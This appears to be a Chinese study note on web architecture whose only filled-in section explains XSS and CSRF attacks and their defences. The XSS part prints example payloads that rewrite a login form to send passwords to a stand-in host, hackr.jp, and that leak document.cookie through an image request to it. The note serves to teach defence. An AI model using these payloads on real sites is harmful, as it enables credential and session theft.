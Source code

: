 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [架构](#%E6%9E%B6%E6%9E%84)
  - [性能优化](#%E6%80%A7%E8%83%BD%E4%BC%98%E5%8C%96)
    - [1. web的性能优化思路](#1-web%E7%9A%84%E6%80%A7%E8%83%BD%E4%BC%98%E5%8C%96%E6%80%9D%E8%B7%AF)
  - [web安全](#web%E5%AE%89%E5%85%A8)
    - [1. web攻击手段和原理](#1-web%E6%94%BB%E5%87%BB%E6%89%8B%E6%AE%B5%E5%92%8C%E5%8E%9F%E7%90%86)
    - [2. XSS Cross-Site-Script](#2-xss-cross-site-script)
    - [3. CSRF Cross-site-request-forgery](#3-csrf-cross-site-request-forgery)
  - [设计模式](#%E8%AE%BE%E8%AE%A1%E6%A8%A1%E5%BC%8F)
  - [项目](#%E9%A1%B9%E7%9B%AE)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->



## 架构

### 性能优化

#### 1. web的性能优化思路



### web安全

#### 1. web攻击手段和原理

web攻击的目标主要是客户端, **服务器**以及web应用. 按照触发形式有主动攻击和被动攻击两种. 

> 主动攻击（active attack）是指攻击者通过直接访问 Web 应用，把 攻击代码传入的攻击模式

> 被动攻击（passive attack）是指利用圈套策略执行攻击代码的攻击模式

较常见的 `XSS` 和 `CRSF` 都是被动攻击. `SQL `注入和 `OS` 命令注入都是主动攻击. 

原理: web的攻击原理**篡改请求**, 在请求报文中加载攻击代码. 比如URL的查询字段, 表单, HTTP首部, Cookie等方式传入攻击代码, 如果有安全漏洞, 代码就会被执行, 内部信息被窃取或者拿到管理权限.

#### 2. XSS Cross-Site-Script

跨站脚本攻击通过运行非法的HTML或JS脚本进行攻击. 主要的目的是:

> - 利用表单诱导用填写账号密码, 并偷偷发送到攻击者的服务器中. (QQ被盗)
> - 利用脚本窃取用户的Cookie值, 在被害者不知情的情况下发送请求
> - 替换网页内容.

攻击入口: 1. 没有转义处理的表单; 2. 动态创建的HTML部分.

攻击模式: 利用事先布置好的陷阱(邮件/奇怪的链接/短信), 诱导用户点击, 属于被动攻击.

攻击类型: XSS 一般分为**存储型、反射型和 DOM 型**。

存储型指的是恶意代码提交到了网站的数据库中，当用户请求数据的时候，服务器将其拼接为 HTML 后返回给了用户，从而导致了恶意代码的执行。

反射型指的是攻击者构建了特殊的 URL，当服务器接收到请求后，从 URL 中获取数据，拼接到 HTML 后返回，从而导致了恶意代码的执行。

案例: 利用URL载入HTML标签

```js
http://example.jp/login?ID="><script>var+f=document⇒
.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method=⇒
"get";</script><span+s="

<div class="input_id">
 ID <input type="text" name="ID" value=""><script>var f=document⇒
.getElementById("login"); f.action="http://hackr.jp/pwget"; f.method=⇒
"get";</script><span s="" />
</div>

//如上, 利用ID将value值替换并载入了script标签, 将提交url修改为攻击者的服务器, 从而获取账号密码.
```

同样也可以设置script到目标脚本窃取Cookie信息.

```js
<script svrc=http://hackr.jp/xss.js></script>
//内容如下
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

防御手段: 

- 输入输出内容转移, 对于引号，尖括号，斜杠进行转义.
- 添加Cookie: HTTPOnly字段, 禁止js读取Cookie
- 添加CSP安全策略
- 验证码

[反射型XSS](https://www.jianshu.com/p/a15c411e4c92)

[存储型XSS漏洞](https://galiyy.github.io/2019/10/01/%E5%AD%98%E5%82%A8%E5%9E%8BXSS%E6%BC%8F%E6%B4%9E/)

[CSP](https://www.bookstack.cn/read/CS-Interview-Knowledge-Map/spilt.1.Safety-safety-cn.md)

#### 3. CSRF Cross-site-request-forgery

**跨站请求伪造** 也被称为 **one-click attack** 或者 **session riding**，通常缩写为 **CSRF** 或者 **XSRF**， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法

攻击入口: 一般是第三方网站(如一些钓鱼网站), 钓鱼帖子

攻击模式: 攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求. 

主要攻击目的:

> - 利用已通过认证的用户权限更新设定信息等 
>
> - 利用已通过认证的用户权限购买商品 
>
> - 利用已通过认证的用户权限在留言板上发表言论

一个典型的CSRF攻击有着如下的流程：

- 受害者登录a.com，并保留了登录凭证（Cookie）。
- 攻击者引诱受害者访问了b.com。
- b.com 向 a.com 发送了一个请求：a.com/act=xx。浏览器会默认携带a.com的Cookie。
- a.com接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求。
- a.com以受害者的名义执行了act=xx。
- 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让a.com执行了自己定义的操作。

防御手段:

- 阻止不明外域的访问

  - 同源检测

    可以通过验证 Referer 来判断该请求是否为第三方网站发起的。同源验证是一个相对简单的防范方法，能够防范绝大多数的CSRF攻击。但这并不是万无一失的.

  - Samesite Cookie

    可以对 Cookie 设置 `SameSite` 属性。该属性设置 Cookie 不随着跨域请求发送，该属性可以很大程度减少 CSRF 的攻击，但是该属性目前并不是所有浏览器都兼容

- 提交时要求附加本域才能获取的信息

  - CSRF Token

    服务器下发一个随机 Token（算法不能复杂），每次发起请求时将 Token 携带上，服务器验证 Token 是否有效

  - 双重Cookie验证

[如何防止CSRF攻击？](https://tech.meituan.com/2018/10/11/fe-security-csrf.html)


### 设计模式

### 项目